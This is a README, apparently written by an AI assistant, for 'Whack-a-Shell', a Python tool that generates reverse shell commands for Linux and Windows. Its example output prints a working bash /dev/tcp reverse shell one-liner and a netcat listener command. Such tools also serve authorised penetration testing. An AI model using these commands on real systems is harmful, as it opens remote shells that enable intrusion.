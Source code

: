 Here is a GitHub-ready **README.md** file for your reverse shell generator project. You can copy and paste it directly into your GitHub repository:

```md
# Reverse Shell Generator

A Python tool for dynamically generating reverse shell commands for both Windows and Linux systems. This tool supports multiple shell types and provides easy-to-use prompts with built-in IP address and port validation.

## Features

- **Cross-platform support**: Generates reverse shell commands for both Windows and Linux systems.
- **Multiple reverse shell types**: Includes Bash, Python, Netcat for Linux, and PowerShell, Netcat for Windows.
- **User-friendly interface**: Simple prompts for user input and shell selection.
- **Error handling**: Validates IP address and port input, handling incorrect entries gracefully.

## Requirements

- **Python 3.x**
- `colorama` library for colored terminal output
- `ipaddress` library for IP validation (built into Python 3)
- Your custom `reverse_shells.py` file that contains `LinuxReverseShellGenerator` and `WindowsReverseShellGenerator`.

### Install dependencies

Run the following command to install `colorama`:

```bash
pip install colorama
```

## How to Run

1. Clone or download this repository to your local machine.
2. Ensure the `reverse_shells.py` file is in the same directory as the main script.
3. Run the Python script:

```bash
python3 Whack-a-Shell.py
```

## Usage

1. Select the target operating system (Windows or Linux) when prompted.
2. Enter a valid IP address and port number.
3. Choose from the available reverse shell types based on your OS selection.
4. The generated reverse shell command will be displayed, along with the command to set up a Netcat listener on the attack machine.

## Example

```
Please select the OS for the reverse shell:
Enter 1 for Windows
Enter 2 for Linux
Choice: 2

You have selected Linux for the reverse shell.

Enter the IP address: 192.168.1.10
Enter the port number: 4444

Please choose the shell program

Enter 1 for Bash Reverse Shell
Enter 2 for Python Reverse Shell
Enter 3 for Netcat Reverse Shell
Choice: 1

Here is your reverse shell: sh -i >& /dev/tcp/192.168.1.10/4444 0>&1

Run this command on the attack machine to set up a listener: nc -nvlp 4444
```

## Error Handling

- **Invalid IP Address**: The program will prompt for a valid IP address if the input is not a valid IPv4 format.
- **Invalid Port**: The port number must be between 1 and 65535. If the input is outside this range or is not a number, the program will prompt for a valid port.

## Customization

You can easily extend this tool by adding more reverse shell options to the `LinuxReverseShellGenerator` and `WindowsReverseShellGenerator` classes in the `reverse_shells.py` file.

## License
This project is licensed under the MIT License. See the LICENSE file for details.

